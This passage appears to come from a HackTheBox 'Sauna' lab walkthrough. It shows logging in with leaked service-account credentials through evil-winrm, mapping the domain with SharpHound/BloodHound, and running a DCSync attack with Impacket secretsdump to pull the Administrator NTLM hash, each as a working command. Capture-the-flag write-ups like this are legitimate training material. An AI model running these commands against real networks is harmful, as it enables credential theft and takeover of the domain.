 Credentials for `svc_loanmgr` are revealed:

![winpeas_executed](GitHubv2/HackTheBox/EASY/Sauna/screenshots/winpeas_executed.png)

Validate with CrackMapExec:

![winrm_svc_loanmgr](GitHubv2/HackTheBox/EASY/Sauna/screenshots/winrm_svc_loanmgr.png)

---
### 4.3 Access as svc_loanmgr

```bash
evil-winrm -i 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
```

![evil_winrm_svc_loanmgr](GitHubv2/HackTheBox/EASY/Sauna/screenshots/evil_winrm_svc_loanmgr.png)

We now have access as `svc_loanmgr`.

---
### 4.4 Domain Enumeration with BloodHound

Upload SharpHound:

![sharphound_uploaded](GitHubv2/HackTheBox/EASY/Sauna/screenshots/sharphound_uploaded.png)

Execute collection:

```powershell
.\SharpHound.exe -c All --Domain EGOTISTICAL-BANK.LOCAL --DomainController 10.10.10.175 --ZipFileName sauna_bh.zip
```

![sharphound_executed_true](GitHubv2/HackTheBox/EASY/Sauna/screenshots/sharphound_executed_true.png)

Download the ZIP and analyze in BloodHound:

![bh_file_uploaded](GitHubv2/HackTheBox/EASY/Sauna/screenshots/bh_zip_file.png)
![bh_file_uploaded](bh_file_uploaded.png)

The path reveals that `svc_loanmgr` has **DCSync privileges**.

---
### 4.5 Exploiting DCSync

Dump credentials with Impacket:

```bash
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```

![secretsdump_svc_loanmgr](GitHubv2/HackTheBox/EASY/Sauna/screenshots/secretsdump_svc_loanmgr.png)

We extract the **Administrator NTLM hash**.

---